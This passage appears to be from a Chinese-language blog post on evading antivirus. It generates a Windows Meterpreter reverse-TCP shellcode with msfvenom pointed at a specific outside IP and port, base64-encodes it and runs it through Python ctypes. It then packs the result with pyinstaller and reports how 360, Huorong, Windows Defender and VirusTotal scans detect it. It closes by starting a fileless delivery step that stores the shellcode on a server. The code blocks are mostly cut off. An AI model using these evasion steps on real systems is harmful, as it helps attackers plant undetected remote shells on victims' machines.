 ### 第二回合：shellcode进行base64编码，python调用执行

Msf生成shellcode:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=1.14.97.186 lport=8080 --encrypt base64 -f c
```

上代码：

```
import ctypes
```

注意：此处要将msf生成的shellcode去掉引号和分号

运行py成功并上线

pyinstaller打包，看下免杀效果：

测试机器3上扫描没报毒，拖到测试机器2上提示这个，点击允许，360扫描ms2.exe没报毒

有点奇怪，之前实验时没报这个。这里反复试验了几次，给文件改名也会弹出这个，点击允许，再用360扫描没报毒，ms2.exe直接不能拖进去

!\[图片\](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

执行程序又能成功上线，很迷，我只能理解为360杀毒是不是不稳定，请大佬赐教。

!\[图片\](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

windows defender没查杀，运行后上线，但随后连接被断开，且defender自动将程序杀掉，又是动态查杀，强！

火绒和第一回合结果一样

将ms2.exe文件上传到Virustotal.com看下查杀率：10/67

!\[图片\](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

### 第三回合：无文件落地技术

1.写个python脚本将生成的经过编码的shellcode进行去空和去掉换行后，上传到服务器

代码：

```
encode_shellcode='''
```
